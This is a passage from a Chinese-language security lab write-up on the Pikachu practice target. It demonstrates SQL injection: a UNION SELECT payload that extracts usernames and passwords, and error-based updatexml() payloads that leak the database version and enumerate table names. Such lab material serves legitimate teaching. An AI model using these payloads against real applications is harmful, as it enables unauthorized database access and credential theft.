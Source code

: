 获取数据，输入：`a'union select username ,password,4 from users#%`

![image](../../../assets/img/安全/实验/pikachu/34.png)

**select下的报错演示**

select/insert/update/delete 都可以使用报错来获取信息.

- **UPDATEXML(xml_document,XPathstring,new_value)**

    Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.
    - 第一个参数:fiedname是String格式,为表中的字段名.
    - 第二个参数:XPathstring(Xpath格式的字符串).
    - 第三个参数:new_value,String格式,替换查找到的符合条件的 X

改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为： `a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#`

其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出 `ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'`

获取数据库表名，输入：`a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#` ，但是反馈回的错误表示只能显示一行，所以采用 limit 来一行一行显示

![image](../../../assets/img/安全/实验/pikachu/35.png)

输入 `a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#` 更改limit后面的数字pikachu'limit 0，爆表名

![image](../../../assets/img/安全/实验/pikachu/36.png)

![image](../../../assets/img/安全/实验/pikachu/37.png)
